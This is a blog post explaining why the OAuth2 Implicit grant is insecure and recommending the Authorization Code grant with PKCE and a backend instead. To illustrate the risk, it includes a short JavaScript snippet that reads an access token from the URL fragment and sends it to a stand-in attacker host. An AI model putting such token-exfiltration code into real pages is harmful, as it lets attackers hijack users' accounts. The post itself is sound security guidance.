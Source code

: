 ```yaml
---
layout: blog-post
title: What's Wrong With the OAuth2 Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
author: Brian Pontarelli
image: blogs/avoid-implicit-grant/whats-wrong-with-the-oauth2-implicit-grant-header-image.png
category: article
tags: client-javascript javascript standards oauth implicit-grant
excerpt_separator: "<!--more-->"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/learn/expert-advice/oauth/differences-between-oauth-2-oauth-2-1). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

<!--more-->

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

{% include _image.liquid src="/assets/img/blogs/avoid-implicit-grant/Rabbitattack.jpg" alt="Just a rabbit?" class="img-fluid" figure=false %}

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/v1/tech/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol. This places it in the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone.

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The library we pulled in, however, is an unknown quantity. 

This library may include other libraries as well. Remember, the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with `<script>` tags. Therefore, we have very little chance of ensuring every other line of code from third-party libraries is secure. 

After all, **do you** audit every JavaScript library and every dependency of each library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant! It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use [PKCE](https://tools.ietf.org/html/rfc7636) in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Want to learn more about the different OAuth grants? Check out [The Modern Guide to OAuth](/learn/expert-advice/oauth/modern-guide-to-oauth) for an in-depth look at all the different OAuth grants and how you might use them in the real world.

Happy coding!

